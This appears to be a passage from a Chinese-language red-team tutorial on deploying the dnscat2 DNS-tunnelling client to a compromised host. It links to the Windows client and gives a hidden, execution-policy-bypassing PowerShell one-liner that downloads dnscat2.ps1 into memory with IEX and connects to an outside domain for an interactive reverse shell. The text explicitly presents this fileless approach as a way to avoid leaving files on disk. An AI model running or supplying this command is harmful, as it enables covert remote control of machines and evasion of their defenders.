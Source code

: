 ![](/assets/images/move/2020-05-27-10-17-15.png)

**> 目标主机加载客户端**

dnscat2 有编译好的 [Windows 客户端](https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip)，而使用 [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell/) 除了获得可交互的 Reverse Shell 外，依靠 powershell 标准的 IEX 加载脚本方式，从外部可信任网站下载到内存再加以利用，无文件运行客户端避免文件落地，降低风险。

```cmd
powershell.exe -nop -exec bypass -w hidden -Command "& {IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -DNSServer 8.8.8.8 -Domain dns.endl.me -PreSharedSecret endl.me}"
```

- [dnscat2-v0.07-client-win32.exe](https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip)

![](/assets/images/move/2020-05-27-10-46-08.png)
